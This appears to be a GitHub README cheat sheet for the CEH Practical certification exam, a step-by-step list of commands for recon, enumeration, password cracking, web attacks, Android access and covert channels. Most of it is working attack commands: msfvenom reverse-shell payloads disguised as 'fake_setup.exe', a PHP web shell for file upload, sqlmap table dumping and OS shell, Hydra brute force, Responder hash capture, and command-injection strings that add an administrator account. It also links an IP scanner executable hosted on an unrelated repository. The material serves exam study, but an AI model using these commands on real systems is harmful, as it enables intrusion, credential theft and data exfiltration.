



  
                                                                                                                          
# Reconnasiance/Footprinting
<details>
  <summary>Recon</summary>

* -r range , Scan Entire Network for ALive host using ARP
```console
:~$ netdiscover -r 192.168.29.1/24
```

* -f switch do not fragment, -l buffer size
```console
:~$ ping <host-ip> -f -l 1300
```
  * __`tracert`__ for windows cmd
```console
:~$ traceroute <host-ip>
```
* [Path Analyzer Pro](https://www.pathanalyzer.com/download.opp/) in traceroute tools, ensure icmp and smart is selected, stop on control is selected
* Start Metasploit Console
```console
:~# msfdb init && msfconsole
:~# msfdb status
```
* Nmap Scanning entire Network

```console
# Don’t ping=> -Pn, SYN scan=> -sS, Aggresive Scan=> -A, Normal_XML and Grepable format all at once=> -oA, Verbose=> -vv 

nmap -Pn -sS -A -oA <Filename> 10.10.1.1/24 -vv
```
* Convert Nmap XML file to [HTML Report](https://nmap.org/book/output-formats-output-to-html/)
```console
xsltproc <nmap-output.xml> -o <nmap-output.html>
```
```console
# Scanning SMB Version for OS Detection using Metaspolit
use scanner/smb/smb_version
show options 
set RHOSTS 10.10.10.8-16 
set THREADS 100 
run
  
#Type hosts again and os_flavor will be visible
  hosts
```
</details>

# Scanning Network
<details>
  <summary>Scan Network</summary>
  
* [Angry IP Scanner](https://angryip.org/download/#windows) of windows to Scan Entire Network
* [Advanced IP Scanner](https://github.com/infovault-Ytube/test1/raw/main/ipscan25.exe) free network scanner to analyze LAN
  

</details>
  
# ENUMERATION
<details>
  <summary>Enum</summary>

* [Hyena](https://www.systemtools.com/hyena/download.htm)
Expand local workstation to view Users, Services, User Rights, Scheduled Jobs 

* [NetBIOS Enumerator](http://nbtenum.sourceforge.net/)
Enter IP Range and click scan.

* NBT (NetBIOS over TCP/IP), which helps troubleshoot NetBIOS name resolution issues.
```console
nbtstat -A 204.224.150.3
```
* Accessing Shared Files
```console.
# List All Shared Resources
net view  <IP>

# Connect to Shared Resource
net use
net use \\10.10.10.1\e ""\user:""
net use \\10.10.10.1\e ""/user:""
```
* SNMP Enumeration
```shell
nmap -sU -p 161 10.10.1.2
nmap -sU -p 161 --script=snmp-brute 10.10.1.2

# Expoilt SNMP with Metasploit
msfdb init && msfconsole ↵
use auxilary/scanner/snmp/snmp_login ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
  
use auxilary/scanner/snmp/snmp_enum ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
```
* Enum4linux: Enumerating information from Windows and Samba systems
```console
enum4linux -A <Target_IP>
```
</details>
  
  # Vulnerability Analysis
<details>
  <summary>Vulerability</summary>
  
 * Nessus: Assest vulnerability scanner
 * Nikto: Web Server scanner
```console
nikto -h www.example.com tuning 1
  ```
  </details>
  
# System Hacking
<details>
  <summary> Sys password Hacking</summary>

```
# To Dump Windows SAM file hashes
pwDump7.exe> hashes.txt 
```
  > pwDump7.exe : To Dump Windows Hashes [PwDump7](https://www.tarasco.org/security/pwdump_7/pwdump7.zip)
  * [Ophcrack.exe](https://ophcrack.sourceforge.io/download.php?type=ophcrack) : To Crack SAM Hashes to obtain clear Password 
  * [rcrack_gui.exe](http://project-rainbowcrack.com/) : Use Raindow Table to crack hashes
  
  </details>

 
<details>
  <summary> Create A Reverse TCP Connection</summary>

```shell
# creates reverse TCP from windows  machine, send this file to victim machine via python-Webserver/shared resource
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attacker_IP> LPORT=444 -o fake_setup.exe  ↵

msfdb init && msfconsole ↵
use exploit/multi/handler ↵
set LHOST=<attacker-IP>  ↵
set LPORT=444 ↵
  run
```
</details>

# Steganography
<details>
<summary> Stego</summary>

#### Hide/unhide text in WhiteSpaces using [snow](http://www.darkside.com.au/snow/)

```shell
SNOW.EXE -C -p 1234 -m "Secret Message"  original.txt ciper.txt
 
# To unhide the hidden text
 
SNOW.EXE -C -p 1234  ciper.txt
```
  
### [OpenStego](https://github.com/syvaidya/openstego/releases) : Hide any data within a cover file like Images

  
  
### [QuickStego](http://cybernescence.co.uk/software-products/QS12Setup.exe): Hide text in pictures without password
 
</details>

  
  
#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>

> [Responder](https://github.com/lgandx/Responder) : rogue authentication server to capture hashes
>
>> This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present [Step by Step](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
  
```shell
# In Parrot/Kali OS, 
responder -I eth0  ↵

# In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
# To crack that hash, use JohntheRipper
john SMB<filename>  ↵
  
```
  </details>
  
#  Website Hacking/Password Cracking
<details>
<summary>Website Cracking</summary>

* SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

* Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
  
  
```
### File Upload Vulnerability
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php
  
msfdb init && msfconsole
use multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST=attacker-ip
set LPORT= attcker-port
run

# If incase, metaspolit not working use NetCat and shell code below

```
> [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) : Use the code, change IP & Port and use it with NetCat listener  
```console
nc -vnl -p 1234
```

> [Weevely](https://www.kali.org/tools/weevely/) : Generate PHP Reverse shell
```shell
  
weevely generate password123 /home/error.php

# Upload the above error.php to website and use the below cmd to get reverse shell

weevely http://domain.com/error.php password123  

```
  
### SQL Injection
> Login bypass with [' or 1=1 --](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) 
> [N-Stalker](https://www.nstalker.com/) : Select OWASP Policy => Scan Website for Vulnerabilites
 
> SQLMAP
  
```shell
#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
 
```
* Some links [DVWA:Blind SQL with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7), [DVWA - High Level with SQLMap](https://www.youtube.com/watch?v=IR1JsaSQLMc&ab_channel=Archidote)
  
  
  
</details>

<details>
<summary>Password Cracking</summary>

> Hydra : FTP, SSH, Telnet
  
```console
# SSH
hydra -l username -P passlist.txt 192.168.0.100 ssh
  
 # FTP
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100
 
# If the service isn't running on the default port, use -s
 hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100 -s 221
  
# TELNET
hydra -l admin -P passlist.txt -o test.txt 192.168.0.7 telnet

# Login form
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"  
  
```
  
</details>
  
# Cryptography
 <details>
 <summary>Cipering / Encrypting/ Hashes </summary>
   
 #### Hash
 
> Find/Decrypt Hash Online with [Hashes.com](https://hashes.com/en/decrypt/hash)
 
```shell
 # In Kali
 $hash-identifier  
   
 #Decrypt Hashes
 hashcat '5f4dcc3b5aa765d61d8327deb882cf99' /usr/share/wordlists/rockyou.txt
```
> Calculate Hash of text/File by [HashCalc](https://www.slavasoft.com/download.htm) in Windows🪟
 
 
> [MD5Calculator](https://www.bullzip.com/download/md5/md5calc(1.0.0.0).zip) in Windows🪟
 

### CryptoForge 
> Encrypt data with Password and only be decoded with cryptoforge by giving password
    

### BCTextEncoder: Text Encode/Decode
   
   

### VeraCrypt: Disk Encrypt/Decrypt
> [Step-By-Step-Tutotrial](https://www.veracrypt.fr/en/Beginner%27s%20Tutorial.html)

### CrypTool : Encode/Decode Text (File Extension is .hex)
* File → New → Enter Text → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Encrypt 
   
* File → Open → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Decrypt


      

  </details> 

# Android Hacking
<details>
<summary>ADB</summary>

> [Live Demo of ADB](https://www.youtube.com/watch?v=Hvreb4hjsig)

  ```shell
apt-get update
sudo apt-get install adb -y
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
  
# =================================================================================================== 
  
# Same thing can be done via PhoneSploit tool 
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

Enter the Full Path of file to Download
sdcard/Download/secret.txt

  
 ```  
</details>
  
# Covert TCP
<details>
<summary>Covert</summary>
  
> Covert_tcp [source code](covert_tcp.c)
> Live Demo [Covert TCP Live Demo-Youtube](https://www.youtube.com/watch?v=bDcz4qIpiQ4)

```shell
# Compile the Code  
cc -o covert_tcp covert_tcp.c
  
# Reciever Machine(192.168.29.53)  
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 9999 -dest_port 8888 -server -file recieve.txt  
 
# Sender Machine(192.168.29.123) 
# Create A Message file that need to be transferred Eg:secret.txt
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 8888 -dest_port 9999 -file secret.txt

```
  
> [Wireshark Capture](Covert_TCP-Capture.pcapng) Hello  This 123 -
 
 
  
</details>
  
  
<details>
<summary>Misc</summary>
 
```shell
# If Python version returned above is 3.X
# On Windows, try "python -m http.server" or "py -3 -m http.server"
python3 -m http.server
# If Python version returned above is 2.X
python -m SimpleHTTPServer
```
  
> $python -m SimpleHTTPServer 9000
 
> $python3 -m http.server 9000

> nslookup www.domain.com
  
[FTP Server](https://archive.org/download/file-zilla-server-0-9-5/FileZilla_Server_0_9_5.exe) 
  
[YOUTUBE](https://www.youtube.com/watch?v=_4a4qSaIIrw)
  
> Command Injection ( IP| net user Test_user /Add )
  (| net user)
  (| net localgroup Administrators Test_user /Add)
  
File Upload Vul::
file.php
File.php.jpg
Add GIF98 and upload and rename .php.jgp

  Chain attack to execute, go in Command SHell and |copy c:\wamp64\www\DVWA\hackable\uploads\filename.php.jpg c:\wamp64\www\DVWA\hackable\uploads\shell.php
  
> Insert Username Password in Website: [blah;insert into login values ('john','pass123'); --]  
</details>
  
  
## CEH Practical Exam Questions:
https://cutt.ly/ceh-practical-git-udy

Contact Me📨 for In-person Training/Queries: sendmehi@outlook.com
